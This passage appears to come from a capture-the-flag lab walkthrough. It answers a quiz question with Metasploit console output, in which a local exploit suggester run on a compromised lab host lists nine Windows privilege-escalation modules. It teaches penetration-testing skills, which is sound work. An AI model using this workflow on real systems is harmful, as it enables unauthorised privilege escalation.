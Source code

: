 6. Running the local exploit suggester will return quite a few results for potential escalation exploits. What is the full path (starting with exploit/) for the first returned exploit?
```
exploit/windows/local/bypassuac_eventvwr



msf5 exploit(windows/http/icecast_header) > search suggester

Matching Modules
================

   #  Name                                      Disclosure Date  Rank    Check  Description
   -  ----                                      ---------------  ----    -----  -----------
   0  post/multi/recon/local_exploit_suggester                   normal  No     Multi Recon Local Exploit Suggester


msf5 exploit(windows/http/icecast_header) > use 0
msf5 post(multi/recon/local_exploit_suggester) > show options

Module options (post/multi/recon/local_exploit_suggester):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   SESSION                           yes       The session to run this module on
   SHOWDESCRIPTION  false            yes       Displays a detailed description for the available exploits

msf5 post(multi/recon/local_exploit_suggester) > set SESSION 1
SESSION => 1
msf5 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.159.191 - Collecting local exploits for x86/windows...
[*] 10.10.159.191 - 31 exploit checks are being tried...
[+] 10.10.159.191 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.159.191 - exploit/windows/local/ikeext_service: The target appears to be vulnerable.
[+] 10.10.159.191 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.159.191 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.159.191 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.159.191 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.159.191 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.159.191 - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.
[+] 10.10.159.191 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed

```
